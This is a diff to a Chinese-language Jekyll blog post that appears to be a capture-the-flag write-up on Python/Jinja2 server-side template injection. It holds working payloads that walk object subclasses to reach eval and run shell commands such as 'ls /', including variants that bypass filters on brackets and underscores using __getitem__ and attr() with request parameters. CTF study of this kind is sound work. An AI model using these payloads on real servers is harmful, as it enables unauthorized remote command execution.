

Before and after one commit to AirGoldenFish/airgoldenfish.github.io, a Jekyll site: the page built from _posts/2020-12-22-SSTI.md, in a window 1280 px wide and 1400 px high, scrolled down 322 px. Shown: the top 836 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-22-SSTI.md

````diff
--- a/_posts/2020-12-22-SSTI.md
+++ b/_posts/2020-12-22-SSTI.md
@@ -14,14 +14,26 @@ tags:
 {% raw %}
 	具体内容，我要用无数个括号{{}}{{{{{}}}}}
 {% endraw %}
+hh:
+{% assign openTag = '{%' %}
+{% raw %}
+前面的内容...
+{% endraw %}
+这里是要使用endraw的内容.
+- `{{ openTag }} raw %} ... {{ openTag }} endraw %}`, 不作为Liquid解释, 会作为源码显示. 例如本文上边文字部分由该对tag包围. **很重要!**.
+{% raw %}
+后面的内容...
+{% endraw %}
 # 老题新做,梦开始的地方
 ## 手工遍历的菜鸡，像极了当初的自己
 攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）
 这道题什么都没有过滤
 ls的payload:
+```
 {% raw %}
 {{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
 {% endraw %}
+```
 为了防止忘了，还是把每个指令的作用记录一下
 ```
 __class__返回参数类型	().__class__就返回了tuple类型
@@ -52,11 +64,15 @@ __import__("os")加载os
 # XCTF mine1_1
 这道题大括号里过滤了`_` `[]` `''` `""`以及`args`
 如果只过滤`[]`的话，payload长这样：
+```
 {% raw %}
 {{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
 {% endraw %}
+```
 因为又过滤了下划线，payload长这样：
+```
 {% raw %}
 {{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
 {% endraw %}
+```
 `args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
````
